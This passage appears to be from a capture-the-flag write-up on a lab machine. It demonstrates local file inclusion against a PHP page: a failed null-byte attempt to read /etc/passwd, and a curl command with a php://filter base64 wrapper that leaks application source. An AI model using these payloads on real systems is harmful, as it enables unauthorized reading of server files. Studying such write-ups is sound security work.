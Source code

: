 ### LFI

The format of the url for the uploads page indicates the site is likely doing something like having a main page, and that page calls `include $_GET['op'] . '.php'` to bring in the other panes. That’s obviously a good place to look for LFI.

#### null terminator (fail)

If the theory above is correct, the site will append `.php` to whatever input is given. First, we can try the %00 trick: `http://10.10.10.80/index.php?op=/etc/passwd%00`

```

Are you really trying /etc/passwd!? Did we Time Travel? This isn't the 90's

```

#### get php source

```

root@kali# curl -sD - 10.10.10.80/?op=php://filter/convert.base64-encode/resource=home | head -44 | tail -1 | cut -d' ' -f1 | base64 -d > home.php
root@kali# cat home.php
<?php
include 'common.php';
?>

    <!-- Page Content -->
    <div class="container">

        <!-- Portfolio Item Heading -->
        <div class="row">
            <div class="col-lg-12">
                <h1 class="page-header">FBI Most Wanted: #fsociety
                    <small></small>
                </h1>
            </div>
        </div>
        <!-- /.row -->

        <!-- Portfolio Item Row -->
        <div class="row">
...

```

#### Find Note From Whiterose

There’s an interesting bit in `index.php`:

```

//Cookie
if(!isset($_COOKIE['admin'])) {
  setcookie('admin', '0');
  $_COOKIE['admin'] = '0';
}

```
